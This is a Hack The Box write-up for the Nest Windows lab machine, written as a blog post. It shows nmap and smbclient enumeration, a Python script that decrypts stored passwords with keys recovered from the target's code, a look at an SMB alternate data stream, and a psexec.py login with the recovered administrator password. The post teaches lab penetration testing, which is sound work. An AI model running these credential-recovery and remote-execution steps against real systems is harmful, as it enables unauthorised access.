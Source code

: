 ```yaml
---
title: Nest - HTB
date: 2025-04-28 14:00:00 +0200
categories: [Hack The Box, Windows]
tags: [Windows, SMB, Enumeration]
toc: true
comments: true
image: ./assets/img/attachments/nest-1.png
imageNameKey: nest
---
```


In this writeup, I’ll walk through how I solved the Nest machine from Hack The Box, covering the vulnerabilities, exploits, and techniques used. Its 4/1000
# Port Enumeration 
First step is to run full port scan 
```bash
nmap 10.129.234.96 -p- -Pn -A -T5
```
![w](/assets/img/attachments/nest.png)

We have open SMB port and another custom service.
I used anonymous login for smb
```bash
 smbclient -L \\10.129.234.96 
```
![w](/assets/img/attachments/nest-2.png)

I will check Users, Secure and Data
![w](/assets/img/attachments/nest-3.png)

Found this at Data shares, and it contains temp password
![w](/assets/img/attachments/nest-4.png)

Will use this credentials to enumerate smb much further
```bash
smbclient //10.129.234.96/<shares> -U TempUser%welcome2019
```

Then i downloaded all accessible files on every share
```bash
smb: \> prompt OFF
smb: \> recurse ON 
smb: \> mget *
```

# User Credentials
In RU_config.xml there's hashed password
![w](/assets/img/attachments/nest-6.png)

But couldn't crack it, with more enumeration:
![w](/assets/img/attachments/nest-8.png)

I found this files which says there's user in IT shares called Carl, Since i couldn't list IT in Secure$ share, I will try to access carl directly
![w](/assets/img/attachments/nest-9.png)

It worked. Let's download all the files we can get.
![w](/assets/img/attachments/nest-10.png)

After some enumeration, I found this file which contains the code used for encrypting the password i found earlier, now we can decode it!

```python
import base64
import hashlib
from Crypto.Cipher import AES
from Crypto.Protocol.KDF import PBKDF2

def decrypt(ciphertext_b64):
    # Parameters from the VB.NET code
    passphrase = "N3st22"
    salt = b"88552299"
    iterations = 2
    init_vector = b"464R5DFA5DL6LE28"
    key_size = 32  # 256 bits = 32 bytes

    # Derive the key using PBKDF2
    key = PBKDF2(passphrase, salt, dkLen=key_size, count=iterations)

    # Decode the Base64 ciphertext
    ciphertext = base64.b64decode(ciphertext_b64)

    # Create AES cipher in CBC mode
    cipher = AES.new(key, AES.MODE_CBC, init_vector)

    # Decrypt the ciphertext
    decrypted = cipher.decrypt(ciphertext)

    # Remove possible padding (PKCS7/PKCS5 padding assumed)
    padding_length = decrypted[-1]
    decrypted_text = decrypted[:-padding_length].decode('ascii')

    return decrypted_text

if __name__ == "__main__":
    encrypted_value = "fTEzAfYDoz1YzkqhQkH6GQFYKp1XY5hm7bjOP86yYxE="
    decrypted_value = decrypt(encrypted_value)
    print("Decrypted Password:", decrypted_value)

```
![w](/assets/img/attachments/nest-11.png)

Then i logged in smb with this new credentials and found user.txt
![w](/assets/img/attachments/nest-12.png)
# Privialage Escalatiom
Inside C.Smith directory 
![w](/assets/img/attachments/nest-13.png)

Debug Mode password file was empty, but the hint said we can find more info using allinfo in smb
![w](/assets/img/attachments/nest-14.png)
```bash
smb:> get "Debug Mode Password.txt":Password:$DATA
```
Inside the file we got this password, and if you remember we find this pass in directory called HQK Reporting, and this was the service running on port 4386
![w](/assets/img/attachments/nest-15.png)

From nmap:
```bash
ORT     STATE SERVICE VERSION
4386/tcp open  unknown
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, NULL, RPCCheck, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, X11Probe: 
|     Reporting Service V1.2
|   FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, RTSPRequest, SIPOptions: 
|     Reporting Service V1.2
|     Unrecognised command
|   Help: 
|     Reporting Service V1.2
|     This service allows users to run queries against databases using the legacy HQK format
|     AVAILABLE COMMANDS ---
|     LIST
|     SETDIR <Directory_Name>
|     RUNQUERY <Query_ID>
|     DEBUG <Password>
|_    HELP <Command>

```

```bash
ncat --crlf 10.129.234.96 4386
```
![w](/assets/img/attachments/nest-16.png)

```bash
HQK Reporting Service V1.2

>debug WBQ201953D8w

Debug mode enabled. Use the HELP command to view additional commands that are now available
>HELP

This service allows users to run queries against databases using the legacy HQK format

--- AVAILABLE COMMANDS ---

LIST
SETDIR <Directory_Name>
RUNQUERY <Query_ID>
DEBUG <Password>
HELP <Command>
SERVICE
SESSION
SHOWQUERY <Query_ID>

>LIST

Use the query ID numbers below with the RUNQUERY command and the directory names with the SETDIR command

 QUERY FILES IN CURRENT DIRECTORY

[DIR]  COMPARISONS
[1]   Invoices (Ordered By Customer)
[2]   Products Sold (Ordered By Customer)
[3]   Products Sold In Last 30 Days

Current Directory: ALL QUERIES
>SERVICE

--- HQK REPORTING SERVER INFO ---

Version: 1.2.0.0
Server Hostname: HTB-NEST
Server Process: "C:\Program Files\HQK\HqkSvc.exe"
Server Running As: Service_HQK
Initial Query Directory: C:\Program Files\HQK\ALL QUERIES

>SETDIR ..
                                                                                                                                              
Current directory set to HQK                                                                                                                  
>LIST                                                                                                                                         
                                                                                                                                              
Use the query ID numbers below with the RUNQUERY command and the directory names with the SETDIR command                                      
                                                                                                                                              
 QUERY FILES IN CURRENT DIRECTORY                                                                                                             
                                                                                                                                              
[DIR]  ALL QUERIES                                                                                                                            
[DIR]  LDAP                                                                                                                                   
[DIR]  Logs                                                                                                                                   
[1]   HqkSvc.exe                                                                                                                              
[2]   HqkSvc.InstallState                                                                                                                     
[3]   HQK_Config.xml                                                                                                                          
                                                                                                                                              
Current Directory: HQK                                                                                                                        
>SETDIR LDAP                                                                                                                                  
                                                                                                                                              
Current directory set to LDAP                                                                                                                 
>LIST                                                                                                                                         
                                                                                                                                              
Use the query ID numbers below with the RUNQUERY command and the directory names with the SETDIR command                                      

 QUERY FILES IN CURRENT DIRECTORY

[1]   HqkLdap.exe
[2]   Ldap.conf

Current Directory: LDAP
>SHOWQUERY 2

Domain=nest.local
Port=389
BaseOu=OU=WBQ Users,OU=Production,DC=nest,DC=local
User=Administrator
Password=yyEq0Uvvhq2uQOcWG8peLoeRQehqip/fKdeG/kjEVb4=

```

And we found administrator password on local 389, and the password is in the same format of the first pass of C.Smith so lets use the same script to decode and decrypt it
It didnt work!

![w](/assets/img/attachments/nest-17.png)

Since its .NET assembly i will use Ilspy
![w](/assets/img/attachments/nest-18.png)

In it I found the algorithm used for this password encryption, then i used the decryption part of the code to get the decrypted password
```bash
XtH4nkS4Pl4y1nGX
```

To get root flag 
```bash
psexec.py 'administrator:XtH4nkS4Pl4y1nGX@10.129.234.96' 
```

![w](/assets/img/attachments/nest-21.png)

And Finally rooted!
